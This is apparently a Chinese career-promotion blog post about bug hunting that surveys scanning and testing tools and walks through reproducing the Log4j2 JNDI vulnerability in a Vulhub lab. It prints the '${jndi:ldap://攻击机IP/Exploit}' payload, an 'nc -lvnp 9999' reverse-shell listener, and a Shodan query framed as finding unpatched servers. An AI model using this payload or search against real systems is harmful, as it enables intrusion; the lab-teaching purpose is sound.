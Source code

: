 #  年薪30W+的秘密：网络安全"挖漏洞"必备的4类工具与漏洞复现指南   
原创 道玄安全  道玄网安驿站   2025-05-19 23:00  
  
**“**  
 挖洞。**”**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPA9bic9zzTydWv4XTTHH2NAiamMp8Kxsh4s2lukPuyuwnia3NiaHkiaU8a3JGFhLvNnYvtLvHTFAd91Rw/640?wx_fmt=png&from=appmsg "")  
  
      
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPMwVHx9iaPDKDhBJiajRW2DIdq0Wxe7JcpgKDia3zMfgicaaD6Auwn6Q3GGm2vI0eNh1Qic6OUhHMjE7g/640?wx_fmt=png&from=appmsg "")  
  
  
  
PS：有内网web自动化需求可以私信  
  
  
  
  
01  
  
—  
  
  
  
导语  
  
  
    在数字化浪潮下，网络安全已成为企业生死攸关的防线。  
**“漏洞挖掘”**  
作为行业高薪岗位的核心技能，不仅能为企业规避风险，更能为从业者带来年薪30W+的职业机会。据智联招聘数据显示，2023年网络安全工程师平均薪资涨幅达15%，资深白帽子年薪甚至突破百万！  
  
**为何“挖漏洞”这么值钱？**  
  
随着《数据安全法》《个人信息保护法》等政策落地，企业对安全合规的需求激增，但专业人才缺口却超过300万。掌握漏洞挖掘与复现能力，意味着你能直接为企业“排雷”，价值不言而喻。  
  
    今天，我们将揭秘网络安全从业者的“武器库”，并手把手教你复现经典漏洞，助你快速进阶！  
#### 一、漏洞挖掘必备的4类工具  
  
工欲善其事，必先利其器。以下4类工具覆盖漏洞挖掘全流程，从信息收集到漏洞利用，缺一不可！  
##### 1. 信息收集：Nmap + Shodan  
- **Nmap**  
：网络扫描神器，快速探测目标开放的端口、服务及系统类型。  
  
- 命令示例：  
nmap -sV -O 192.168.1.1  
（识别服务版本和操作系统）。  
  
- **Shodan**  
：全球“黑客搜索引擎”，实时抓取暴露在公网的设备和服务。  
  
- 实战技巧：搜索  
Apache Tomcat country:"CN"  
，可定位国内未修复漏洞的服务器。  
  
##### 2. 漏洞扫描：Nessus + AWVS  
- **Nessus**  
：企业级漏洞扫描工具，支持5万+漏洞检测，输出专业报告。  
  
- **AWVS**  
：专注Web漏洞扫描，SQL注入、XSS、CSRF等一网打尽。  
  
- 优势：自动化生成PoC（漏洞验证脚本），节省80%手动验证时间。  
  
##### 3. 渗透测试：Burp Suite + SQLMap  
- **Burp Suite**  
：Web渗透测试标配，拦截修改HTTP请求，精准定位漏洞入口。  
  
- 插件推荐：  
**Turbo Intruder**  
（爆破神器）、  
**Logger++**  
（流量分析）。  
  
- **SQLMap**  
：自动化SQL注入工具，一键拖库、提权、绕过WAF。  
  
##### 4. 流量分析：Wireshark + Charles  
- **Wireshark**  
：抓包分析利器，追踪网络层攻击痕迹（如ARP欺骗、DDoS）。  
  
- **Charles**  
：专注HTTP/HTTPS流量解析，快速定位API接口漏洞。  
  
#### 二、漏洞复现实战：以Log4j2为例  
  
**漏洞背景**  
：2021年Log4j2核弹级漏洞（CVE-2021-44228），攻击者通过JNDI注入可远程执行任意代码，波及全球70%企业系统。  
  
**复现步骤**  
：  
1. **环境搭建**  
：  
  
1. 使用Vulhub快速部署漏洞环境：  
docker-compose up -d log4j2-rce  
。  
  
1. **构造Payload**  
：  
  
1. 注入恶意LDAP地址：  
${jndi:ldap://攻击机IP/Exploit}  
。  
  
1. **启动监听**  
：  
  
1. 在攻击机运行  
nc -lvnp 9999  
，等待目标触发漏洞反弹Shell。  
  
1. **漏洞验证**  
：  
  
1. 目标系统执行日志写入Payload后，攻击机成功获取Shell权限。  
  
**修复方案**  
：升级Log4j至2.17.0+版本，或禁用JNDI查找功能。  
#### 三、如何靠“挖漏洞”实现年薪30W+？  
1. **考取权威认证**  
：CISP（国内渗透测试认证）、OSCP（国际顶级攻防认证）。  
  
1. **参与众测平台**  
：加入漏洞盒子、补天等SRC平台，边挖洞边赚奖金。  
  
1. **深耕垂直领域**  
：工业互联网、车联网、区块链等新兴场景漏洞需求激增，溢价更高！  
  
#### 结语  
  
    网络安全是“矛与盾”的永恒博弈，漏洞挖掘能力决定了你的职业天花板。  
**立即行动**  
：从复现一个漏洞开始，积累实战经验，掌握工具组合拳，高薪offer自然手到擒来！  
  
  
免责声明：  
### 本人所有文章均为技术分享，均用于防御为目的的记录，所有操作均在实验环境下进行，请勿用于其他用途，否则后果自负。  
  
第二十七条：任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序和工具；明知他人从事危害网络安全的活动，不得为其提供技术支持、广告推广、支付结算等帮助  
  
第十二条：  国家保护公民、法人和其他组织依法使用网络的权利，促进网络接入普及，提升网络服务水平，为社会提供安全、便利的网络服务，保障网络信息依法有序自由流动。  
  
任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一，宣扬恐怖主义、极端主义，宣扬民族仇恨、民族歧视，传播暴力、淫秽色情信息，编造、传播虚假信息扰乱经济秩序和社会秩序，以及侵害他人名誉、隐私、知识产权和其他合法权益等活动。  
  
第十三条：  国家支持研究开发有利于未成年人健康成长的网络产品和服务，依法惩治利用网络从事危害未成年人身心健康的活动，为未成年人提供安全、健康的网络环境。  
  
  
  
  
  
  
